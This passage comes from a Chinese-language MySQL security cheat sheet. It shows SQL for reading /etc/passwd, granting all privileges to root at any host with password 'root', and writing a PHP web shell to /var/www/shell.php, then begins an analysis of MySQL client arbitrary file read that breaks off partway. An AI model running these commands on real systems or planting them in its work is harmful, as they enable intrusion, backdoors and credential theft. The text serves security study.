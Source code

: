 ### <a class="reference-link" name="0x2%20%E6%9F%A5%E7%9C%8B"></a>0x2 查看

```
show databases;
show tables;
show variables like '%secure%'; //查看安全属性

LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE test FIELDS TERMINATED BY '\n';//读取客户端文件
```

### <a class="reference-link" name="0x3%20%E6%9B%B4%E6%96%B0%E6%B7%BB%E5%8A%A0%E7%94%A8%E6%88%B7%E5%8F%8A%E6%9D%83%E9%99%90"></a>0x3 更新添加用户及权限

```
CREATE USER 'username'@'host' IDENTIFIED BY 'password';
GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' IDENTIFIED BY 'root' WITH GRANT OPTION;
DROP USER 'username'@'host';
flush privileges;
```

### <a class="reference-link" name="0x4%20%E6%96%87%E4%BB%B6%E8%AF%BB%E5%86%99"></a>0x4 文件读写

```
SELECT '&lt;? system($_GET[\'c\']); ?&gt;' INTO OUTFILE '/var/www/shell.php';
SELECT LOAD_FILE('/var/lib/mysql-files/aaa') AS Result;
select group_concat(id) from test INTO DUMPFILE "/var/lib/mysql-files/aaaa";
```



## 0x03 攻击面分析

### <a class="reference-link" name="0x1%20Mysql%20%E5%AE%A2%E6%88%B7%E7%AB%AF%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB"></a>0x1 Mysql 客户端任意文件读

> <p>适用范围： 全版本 MySQL/MariaDB Client<br>
条件：客户端连接时开启 –enable-local-infile</p>

[![](https://p5.ssl.qhimg.com/t0127ec3fd3010673f7.png)](https://p5.ssl.qhimg.com/t0127ec3fd3010673f7.png)

从结果上来看，客户端读取了自身指定的数据，抓取数据包分析整个流程。

<a class="reference-link" name="1.%20Client%20Send%203306"></a>**1. Client Send 3306**

192.168.0.114 是SqlServer 192.168.0.115为客户端

[![](https://p0.ssl.qhimg.com/t01a6affce0135bf7b2.png)](https://p0.ssl.qhimg.com/t01a6affce0135bf7b2.png)

<a class="reference-link" name="2.%20Server%20Send%20Greeting%20packet"></a>**2. Server Send Greeting packet**
